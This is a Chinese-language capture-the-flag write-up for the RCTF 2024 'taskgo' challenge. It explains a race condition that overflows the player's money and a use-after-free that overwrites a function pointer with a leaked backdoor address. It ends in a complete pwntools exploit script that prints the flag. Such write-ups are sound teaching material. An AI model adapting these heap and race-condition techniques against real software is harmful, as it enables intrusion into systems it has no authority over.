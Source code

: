 ```yaml
---
title: rctf2024 - taskgo 
date: 2024/6/1 02:44:00
updated: 2024/7/25 12:34:56
tags:
    - race condition
    - uaf
thumbnail: /assets/practice/taskgo1.png
excerpt: 利用条件竞争和UAF漏洞，通过溢出玩家金钱和操控函数指针，成功获取程序的BackDoor地址并提取flag。
---
```


From XCTF x RCTF 2024

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |on    |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

程序里编译了一个chromium的工具集进去，逆向压力猛增

主要利用了2个条件竞争：

### 第一处

在`CheckMoney`中，函数会先检查玩家的钱是否足够，然后sleep 1秒再扣除，
那么尝试让2次扣钱的操作同时检查，就可以同时扣除，溢出money成一个很大的值

具体来说，是同时买 *Silver Boat* 和 *Flame Scroll*

动调来看，进入Rapid Advance分支后买东西是由`PostTask`发起的，
在IOThread中运行；进入Magic Castle分支买东西在主线程中运行，
故存在条件竞争

![rc1](/assets/practice/taskgo1.png)

要先买船！要不然买法卷会阻塞输入线程导致无法同时买船

### 获取`BackDoor`

通过交叉引用不难看出程序中`Log`函数输出了`BackDoor`，`BackDoor`可以读取文件：
参数是`basic_string`，内容是玩家名字，将文件打开并输出，而参数设置在调用`Log`时完成

要想获取`BackDoor`的地址，只需要购买三种法卷并学习，然后在Magic Castle分支输入1337，
亦即执行`Gods`函数

chromium的std字符串与llvm的libc++中的std字符串一致，这是它的结构：

```c
  struct __long { // if string longer than 23 (including \0)
    char *__data_;
    size_t __size_;
    size_t __cap_ : sizeof(size_t) * 8 - 1;
    size_t __is_long_ : 1;
  };

  struct __short { // if string shorter than 23
    value_type __data_[23];
    unsigned char __size_    : 7;
    unsigned char __is_long_ : 1; // bit field to tag which type is used
  };

  struct basic_string {
    union {
      __long __l;
      __short __s;
    }
  };
```

### 第二处

可以注意到在执行`Gods`前提示等待5s，可能这里也能利用

具体来说，主线程运行到`$rebase(0x4ab8f)`时，post delayed task，
把要运行的函数`Gods`和它的参数`MagicHeld *held`存到`OnceCallback`中，
然后等待3,000,000 **微秒** 后交给IOThread来运行，而`Log`的函数指针，
正好存放在`held`上

在`OnceCallback`中，0x20处存放了要运行的函数指针，0x30处则存放了参数，
这个参数写入了以后就保持不变

已知`DropMS`可以释放`held`，在买了木船后触发`FiveStar`读取用户输入，
随后触发`NoteStar`分配一个输入的内容大小的堆块并将输入的字符串复制上去

在`$rebase(0x4c658)`的位置还可以看到给`held`分配的大小为0x30，
那么只要我们的输入长度与0x30一致，就可以将刚释放的堆块拿回来写入

基于以上思考，我们就可以得出利用链了：

![exp chain](/assets/practice/taskgo2.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './taskgo'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
    else:
        sh = remote('', 9999)

    def dbg():
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x4b82b)\nc')

    sh.sendline(b'flag') # username
    dbg()
    # buy $1000 silver boat
    sh.sendline(b'1')
    sh.sendline(b'2')
    # buy $10000 flame scroll
    sh.sendline(b'2')
    sh.sendline(b'1')
    sh.sendline(b'1')
    # trigger race condition
    sleep(1.25)
    recv = sh.recv()
    if b'4294' in recv:
        success('money value is overflowed')
    else:
        warn('fail to overflow money')
        sh.close()
        return 0

    FLAME_SCORLL = b'1'
    WATER_SCROLL = b'2'
    STONE_SCROLL = b'3'
    def learnMagic(scroll:bytes, skip:bool=False):
        if not skip:
            # buy scroll
            sh.sendline(b'2')
            sh.sendline(b'1')
            sh.sendline(scroll)
        # learn
        sh.sendline(b'2')
        sh.sendline(b'3')
        # drop the scroll
        sh.sendline(b'2')
        sh.sendline(b'2')
    learnMagic(FLAME_SCORLL, True)
    learnMagic(WATER_SCROLL)
    learnMagic(STONE_SCROLL)
    info('learned 3 magics')

    # buy ms first so we can use "1337"
    sh.sendline(b'2')
    sh.sendline(b'1')
    sh.sendline(b'1')
    # trigger Gods
    sh.sendline(b'2')
    sh.sendline(b'1337')
    sh.recvuntil(b'gift: ')
    backdoor = int(sh.recvline(), 16)
    success(f'Get BackDoor addr: {backdoor:#x}')
    
    # dbg()
    info('syncing program flow...')
    sleep(2)
    # trigger Gods, 3s to do what we want
    sh.sendline(b'2')
    sh.sendline(b'1337')

    # release held pointer
    sh.sendline(b'2')
    sh.sendline(b'2')
    # buy a wooden boat to invoke five-star
    sh.sendline(b'1')
    sh.sendline(b'1')

    # trigger five-star
    info('wait 1s so that we can get into FiveStar')
    sleep(1.5)
    sh.sendline(b'3')
    # alloc held back and overwrite it
    sh.sendlineafter(b'five-star', b'0'*0x28 + p64(backdoor))

    sh.recvuntil(b'RCTF{')
    success(f'Flag is: {"RCTF{"}{sh.recvuntil(b"}").decode()}')
    sh.close()
```
